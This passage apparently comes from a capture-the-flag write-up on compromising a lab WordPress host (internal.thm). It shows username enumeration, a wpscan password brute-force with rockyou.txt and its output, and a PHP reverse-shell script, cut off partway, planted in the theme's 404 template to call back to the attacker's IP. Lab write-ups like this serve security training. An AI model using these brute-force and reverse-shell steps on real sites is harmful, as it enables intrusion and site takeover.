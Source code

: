 We use the username *root* with the password *root*. The error message returned is different saying that the username is unknown:

![](img20210220170659.png)

This means that username admin is valid.  We use wpscan to bruteforce the password with password list rockyou.txt:

```
─$ wpscan --url http://internal.thm/blog --usernames admin --passwords /usr/share/wordlists/rockyou.txt --max-threads 50

```

We get a match for password
```
[+] Performing password attack on Xmlrpc against 1 user/s
[SUCCESS] - admin / my2boys                                                                                                                                                                                                                
Trying admin / luciana Time: 00:01:51 <                                                                                                                                                           > (3900 / 14348292)  0.02%  ETA: ??:??:??

[!] Valid Combinations Found:
 | Username: admin, Password: my2boys

[!] No WPVulnDB API Token given, as a result vulnerability data has not been output.
[!] You can get a free API token with 50 daily requests by registering at https://wpscan.com/register

[+] Finished: Sat Feb 20 16:45:51 2021
[+] Requests Done: 3953
[+] Cached Requests: 5
[+] Data Sent: 1.923 MB
[+] Data Received: 2.588 MB
[+] Memory used: 235.516 MB
[+] Elapsed time: 00:02:08

```

We login to Wordpress using credentials admin, password my2boys. We browse through the menu Appearance -> Theme Editor -> 404 Template. We edit the file to put a reverse PHP shell code, here's the edited file:
```php
<?php
set_time_limit (0);
$VERSION = "1.0";
$ip = '10.9.0.123';  // CHANGE THIS
$port = 1337;       // CHANGE THIS
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; /bin/sh -i';
$daemon = 0;
$debug = 0;

//
// Daemonise ourself if possible to avoid zombies later
//

// pcntl_fork is hardly ever available, but will allow us to daemonise
// our php process and avoid zombies.  Worth a try...
if (function_exists('pcntl_fork')) {
	// Fork and have the parent process exit
	$pid = pcntl_fork();
```